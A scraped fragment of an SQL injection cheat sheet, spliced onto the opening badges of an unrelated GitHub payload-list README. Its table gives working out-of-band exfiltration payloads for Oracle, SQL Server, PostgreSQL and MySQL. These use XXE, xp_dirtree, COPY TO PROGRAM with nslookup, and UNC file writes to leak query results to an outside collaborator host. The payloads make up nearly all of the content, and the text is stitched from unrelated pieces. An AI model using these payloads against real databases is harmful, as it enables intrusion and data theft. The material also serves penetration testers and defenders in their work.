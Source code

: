                     SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual
                </code></td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    create OR replace function f() returns void as $$<br>
                    declare c text;<br>
                    declare p text;<br>
                    begin<br>
                    SELECT into p (SELECT YOUR-QUERY-HERE);<br>
                    c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';<br>
                    execute c;<br>
                    END;<br>
                    $$ language plpgsql security definer;<br>
                    SELECT f();
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td>
                    The following technique works on Windows only:<br>
                    <code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code>
                </td>
            </tr>
        </tbody></table>


                    </div>
                    <div class="rightcol rightcol-boxes">
                        



### SQL Injection Payload List

<p align="center">
  <img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/sql-injection-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/sql-injection-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/sql-injection-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/sql-injection-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/command-injection-payload-list/1">
</p>
